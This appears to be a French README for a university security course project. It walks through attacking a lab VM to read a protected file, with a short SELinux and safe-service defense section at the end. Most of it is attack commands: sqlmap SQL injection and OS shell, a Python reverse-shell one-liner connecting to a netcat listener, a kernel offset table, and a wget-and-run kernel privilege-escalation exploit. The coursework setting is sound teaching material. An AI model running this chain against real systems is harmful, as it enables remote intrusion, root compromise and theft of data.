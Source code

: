 # INF8602 – Projet de session

## Prérequis :

Ajouter la ligne suivante dans ``/etc/hosts`` :
```
IP_DE_LA_VM  inf8602.local
```

## Attaque
- Accéder à la page : http://inf8602.local
- Se connecter avec : ``ebelanger``, ``motdepasse``

### Exploration

Exploration à l'aide de sqlmap :
```bash
sqlmap --flush-session -u "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST
```

On constate que le serveur est vulnérable.

Listons les tables :

```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST --dump -T users --stop 5
```

Les NAS ne sont pas là...

### Obtention d'un shell

On souhaite obtenir un shell :
```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --dbms=postgresql --method POST --no-cast --os-shell
```

On lance ensuite, dans un autre teminal :
```bash
nc -l -p 8080 -vvv
```

Puis on lance la commande suivante dans le shell sqlmap :
```bash
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.122.1",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

**Le shell est obtenu!**

### Vulnérabilité du système d'exploitation

Il faut montrer que l'utilisateur est ``postgress`` et que les NAS sont dans ``/nas.txt`` :
```bash
whoami
ls -lsa /
uname -a
```

On constate que seul root peut accéder à ``/secure_folder/nas.txt``. On constate également que le kernel (``5.11.0-44-generic``) fait partie de la liste suivante :
```c
struct kernel_info kernels[] = {
    {"5.11.0-22-generic #23~20.04.1-Ubuntu", 0x33ceb0, 0x166c2c0},
    {"5.11.0-25-generic #27~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-27-generic #29~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-34-generic #36~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-36-generic #40~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-37-generic #41~20.04.2-Ubuntu", 0x33eae0, 0x166c340},
    {"5.11.0-38-generic #42~20.04.1-Ubuntu", 0x33f400, 0x166c340},
    {"5.11.0-40-generic #44~20.04.2-Ubuntu", 0x33f980, 0x1c6c2e0},
    {"5.11.0-41-generic #45~20.04.1-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-43-generic #47~20.04.2-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-44-generic #48~20.04.2-Ubuntu", 0x3400b0, 0x1c6c2e0},
    {"5.13.0-21-generic #21~20.04.1-Ubuntu", 0x34adc0, 0x1e6e060},
    {"5.13.0-22-generic #22~20.04.1-Ubuntu", 0x34b280, 0x1e6e060},
    {"5.13.0-23-generic #23~20.04.2-Ubuntu", 0x34b270, 0x1e6e0a0},
    {"5.13.0-25-generic #26~20.04.1-Ubuntu", 0x34b330, 0x1e6e0a0},
};
```

Il est possible de réaliser une élévation de privilège :
```bash
wget https://github.com/bourquejulien/INF8602-Projet/raw/main/SELinux/attack/exploit
chmod +x exploit
./exploit
bash -p
```

Il est maintenant possible d'accéder au NAS :
```bash
whoami
cat /nas.csv
```

## Défense

Pour relance la DB (au besoin, tuer ``./exploit`` au préalable) :
```bash
sudo systemctl restart postgresql
```

**Plusieurs défenses existent.**

Pour éviter les injections SQL :
```bash
sudo systemctl stop inf8602
sudo systemctl start inf8602-safe
```

Pour éviter l'exécution de l'attaque :
```bash
sudo systemctl stop inf8602-safe
sudo systemctl start inf8602

sestatus
sudo setenforce 1
sestatus
```

**Relancer l'attaque**
